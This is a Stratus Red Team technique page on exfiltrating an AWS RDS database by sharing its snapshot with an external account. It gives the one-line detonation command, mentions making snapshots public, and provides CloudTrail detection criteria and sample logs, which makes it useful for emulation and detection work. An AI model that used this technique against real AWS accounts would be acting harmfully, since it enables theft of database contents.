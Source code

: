 ```yaml
---
title: Exfiltrate RDS Snapshot by Sharing
---
```


# Exfiltrate RDS Snapshot by Sharing

 <span class="smallcaps w3-badge w3-orange w3-round w3-text-sand" title="This attack technique might be slow to warm up or detonate">slow</span> 
 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Shares a RDS Snapshot with an external AWS account to simulate an attacker exfiltrating a database.

<span style="font-variant: small-caps;">Warm-up</span>:

- Create a RDS Instance (slow, around 10 minutes)
- Create a RDS Snapshot

<span style="font-variant: small-caps;">Detonation</span>:

- Call rds:ModifyDBSnapshotAttribute to share the snapshot with an external AWS account


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.exfiltration.rds-share-snapshot
```
## Detection


Through CloudTrail's <code>ModifyDBSnapshotAttribute</code> event, when both:

- <code>requestParameters.attributeName</code> is <code>restore</code>
- and, <code>requestParameters.launchPermission</code> shows that the RDS snapshot was shared with a new or unknown AWS account, such as:

<pre><code>"requestParameters": {
  "dBSnapshotIdentifier": "my-db-snapshot",
  "attributeName": "restore"
  "valuesToAdd": ["193672423079"],
}</code></pre>

An attacker can also make an RDS snapshot completely public. In this case, the value of <code>valuesToAdd</code> is <code>["all"]</code>. 





## Detonation logs <span class="smallcaps w3-badge w3-pink w3-round w3-text-sand" title="TODO">new</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `rds:ModifyDBSnapshotAttribute`


??? "View raw detonation logs"

    ```json hl_lines="6"

    [
	   {
	      "awsRegion": "meiso-eastwest-2r",
	      "eventCategory": "Management",
	      "eventID": "fef2bf02-bbea-4d0f-a91c-e6ccfe3fba46",
	      "eventName": "ModifyDBSnapshotAttribute",
	      "eventSource": "rds.amazonaws.com",
	      "eventTime": "2024-08-01T12:38:06Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.08",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "171471557522",
	      "requestID": "3fd13676-52a0-4680-8491-71a8e28ea7f5",
	      "requestParameters": {
	         "attributeName": "restore",
	         "dBSnapshotIdentifier": "exfiltration",
	         "valuesToAdd": [
	            "503161813013"
	         ]
	      },
	      "responseElements": {
	         "dBSnapshotAttributes": [
	            {
	               "attributeName": "restore",
	               "attributeValues": [
	                  "503161813013"
	               ]
	            }
	         ],
	         "dBSnapshotIdentifier": "exfiltration"
	      },
	      "sourceIPAddress": "204.10.215.184",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "rds.meiso-eastwest-2r.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_5ca5319a-2127-4f13-a878-495bc59244b3",
	      "userIdentity": {
	         "accessKeyId": "AKIAIYTVC64GTXUFCS2X",
	         "accountId": "171471557522",
	         "arn": "arn:aws:iam::171471557522:user/christophe",
	         "principalId": "AIDA3MGXB5NR71XRJU40",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).
